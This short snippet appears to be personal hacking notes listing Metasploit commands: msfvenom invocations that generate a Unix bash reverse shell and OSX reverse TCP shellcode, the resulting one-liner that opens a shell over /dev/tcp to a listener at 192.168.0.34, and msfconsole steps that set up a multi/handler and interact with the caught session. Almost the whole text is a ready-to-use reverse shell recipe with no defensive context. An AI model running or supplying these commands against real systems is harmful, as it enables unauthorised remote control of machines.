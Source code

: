 

```
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.0.34 LPORT=6680 -f raw
```
creates bash payload 
```
0<&192-;exec 192<>/dev/tcp/192.168.0.34/6680;sh <&192 >&192 2>&192
```

creates osx shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.0.34 LPORT=6680 -f raw


```

```
msfconsole
use multi/handler
set PAYLOAD cmd/unix/reverse_bash
set LHOST 192.168.0.34   
set LPORT 6680
exploit -j -z

```


```
sessions -i 1
```


